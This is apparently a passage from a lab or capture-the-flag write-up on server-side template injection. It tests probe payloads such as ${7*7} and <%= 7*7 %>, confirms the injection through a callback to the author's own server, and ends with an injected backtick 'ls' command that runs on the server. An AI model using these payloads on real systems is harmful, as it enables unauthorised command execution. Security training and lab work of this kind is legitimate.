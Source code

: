 ### SSTI 

- Try the [SSTI payloads](https://github.com/payloadbox/ssti-payloads), for example:
    - ```${7*7}```
    - ```#{ 7 * 7 }```
    - ```<%= 7 * 7 %>```

- Only ```<%= 7*7 %> ``` work
- Confirm SSTI vulneraility exist
```
http://10.10.16.26:9797/aaa.html<%= 7*7 %>
```

![](./IMG/7.png)
- The simple server will get 49 after ```aaa.html```
- So, I confirmed the SSTI exist, and the result will be show in my simple server log.

![](./IMG/8.png)
- Research on this hacktrick
- Let's try to execute command like ```ls ``` to check the file.
```
http://10.10.16.26:9797/aaa.html<%= `ls ` %>
```

